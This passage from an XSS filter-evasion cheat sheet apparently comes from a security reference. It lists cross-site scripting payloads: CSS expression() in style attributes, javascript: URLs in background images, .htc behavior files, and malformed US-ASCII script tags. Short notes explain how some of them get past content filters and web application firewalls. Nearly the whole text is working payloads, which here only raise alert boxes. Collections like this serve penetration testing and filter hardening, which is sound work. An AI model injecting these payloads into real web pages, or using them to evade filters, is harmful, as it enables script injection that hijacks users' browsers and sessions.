 ```html
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

(Created by Roman Ivanov)

### IMG STYLE with Expressions

This is really a hybrid of the last two XSS vectors, but it really does show how hard STYLE tags can be to parse apart. This can send IE into a loop:

```html
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

### STYLE Tag using Background-image

```html
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```

### STYLE Tag using Background

```html
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```

### Anonymous HTML with STYLE Attribute

The IE rendering engine doesn't really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:

```html
<XSS STYLE="xss:expression(alert('XSS'))">
```

### Local htc File

This is a little different than the last two XSS vectors because it uses an .htc file that must be on the same server as the XSS vector. This example file works by pulling in the JavaScript and running it as part of the style attribute:

```html
<XSS STYLE="behavior: url(xss.htc);">
```

### US-ASCII Encoding

This attack uses malformed ASCII encoding with 7 bits instead of 8. This XSS method may bypass many content filters but it only works if the host transmits in US-ASCII encoding or if you set the encoding yourself. This is more useful against web application firewall (WAF) XSS evasion than it is server side filter evasion. Apache Tomcat is the only known server that by default still transmits in US-ASCII encoding.

```js
¼script¾alert(¢XSS¢)¼/script¾
```
